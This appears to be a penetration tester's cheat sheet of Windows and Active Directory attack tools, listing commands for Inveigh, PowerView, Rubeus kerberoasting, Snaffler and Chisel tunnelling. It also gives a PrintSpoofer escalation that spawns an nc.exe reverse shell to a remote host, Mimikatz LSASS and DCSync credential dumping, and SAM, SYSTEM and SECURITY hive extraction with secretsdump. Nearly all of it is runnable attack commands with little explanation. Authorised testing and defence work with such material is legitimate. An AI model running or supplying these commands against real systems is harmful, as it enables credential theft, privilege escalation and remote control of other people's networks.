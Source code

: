 # Tools

### Inveigh.ps1
https://github.com/Kevin-Robertson/Inveigh/blob/master/Inveigh.ps1  
Similar to Responder, for powershell  
PS C:\> Import-Module .\Inveigh.ps1  
PS C:\> (Get-Command Invoke-Inveigh).Parameters  
PS C:\> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y  


### PowerView.ps1
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1  
Replacements for various Windows net*  
PS C:\> import-module .\PowerView.ps1  
PS C:\> Get-DomainPolicy  
PS C:\> Get-DomainUser * -spn | select samaccountname  #to extract TGS tickets  


### nc.exe
https://github.com/int0x33/nc.exe/  
netcat Win binary, for port listening and reverse shell  


### printspoofer
To escalate with SeImpersonatePrivilege & SeAssignPrimaryTokenPrivilege  
PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.10.10 4545 -e cmd"  


### Rubeus
https://github.com/GhostPack/Rubeus  
Kerberoasting from windows machine  
PS C:\> .\Rubeus.exe kerberoast /stats  #to gather some stats  
PS C:\> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap  #/nowrap to copy hash easily  
PS C:\> .\Rubeus.exe kerberoast /user:"username" /nowrap  #to test spesific user  
PS C:\> .\Rubeus.exe kerberoast /tgtdeleg /user:"username" /nowrap  #RC4 encryption for a new service ticket  


### SharpHound.exe
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors  
Enumerate AD for Bloodhound  


### Snaffler.exe
https://github.com/SnaffCon/Snaffler  
Credential Enumeration  
PS C:\> .\Snaffler.exe  -d <DomainName> -s -v data  
  

### Chisel
https://github.com/jpillora/chisel  
Pre-compiled Chisel for port-forwarding, linux and windows  
sudo ./chisel server --reverse -v -p 1234 --socks5  
./chisel.exe client -v 10.10.10.10:1234 R:socks  
  

### Lazagne
https://github.com/AlessandroZ/LaZagne  
checks for passwords in common locations  

  
### Linpeas / Winpeas
Checks for possible priv esc for linux and windows  
  
  
### Mimikatz
https://github.com/ParrotSec/mimikatz  
  
mimikatz # privilege::debug  
mimikatz # sekurlsa::logonpasswords  

#use lsass.DMP and put results to lsass.txt  
#lsass.DMP can be acquired with right click lsass.exe and create dump method from task manager in details  
mimikatz # sekurlsa::minidump lsass.DMP  
mimikatz # log lsass.txt  
mimikatz # sekurlsa::logonPasswords  

#for dcsync abuse  
mimikatz # lsadump::dcsync  
mimikatz # lsadump::dcsync /user:<UserName>  #for spesific user only  

reg save HKLM\SAM sam.h  #to Dump SAM  
reg save HKLM\SYSTEM sys.h  #to Dump SYSTEM  
reg save HKLM\SECURITY sec.h  #to Dump SECURITY  
mimikatz # lsadump::sam sys.h sam.h sec.h  #get hashes from these files with mimikatz  

#secretsdump.py from impacket could also be used  
/usr/lib/python3/dist-packages/impacket/examples/secretsdump.py  # kali location  
python3 secretsdump.py LOCAL -system system.h -sam sam.h -security sec.h  
  
  
  
  
  
  
  
  










